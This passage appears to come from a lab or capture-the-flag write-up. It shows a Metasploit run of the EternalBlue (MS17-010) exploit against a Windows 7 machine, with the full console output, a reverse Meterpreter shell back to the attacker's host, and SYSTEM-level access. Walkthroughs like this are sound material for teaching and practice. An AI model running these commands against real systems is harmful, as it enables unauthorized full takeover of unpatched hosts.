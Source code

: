 Let’s set these and run the exploit.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => 10.10.16.21
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts target
rhosts => target
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.16.21:4444
[*] 10.129.2.27:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.2.27:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.129.2.27:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.2.27:445 - The target is vulnerable.
[*] 10.129.2.27:445 - Connecting to target for exploitation.
[+] 10.129.2.27:445 - Connection established for exploitation.
[+] 10.129.2.27:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.2.27:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.2.27:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.2.27:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.2.27:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.129.2.27:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.2.27:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.2.27:445 - Sending all but last fragment of exploit packet
[*] 10.129.2.27:445 - Starting non-paged pool grooming
[+] 10.129.2.27:445 - Sending SMBv2 buffers
[+] 10.129.2.27:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.2.27:445 - Sending final SMBv2 buffers.
[*] 10.129.2.27:445 - Sending last fragment of exploit packet!
[*] 10.129.2.27:445 - Receiving response from exploit packet
[+] 10.129.2.27:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.2.27:445 - Sending egg to corrupted connection.
[*] 10.129.2.27:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.129.2.27
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.16.21:4444 -> 10.129.2.27:49158) at 2025-08-18 18:26:27 +0200

meterpreter >
```

Amazing! We obtained a Meterpreter session on the target machine. Let's see which user it's running as.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
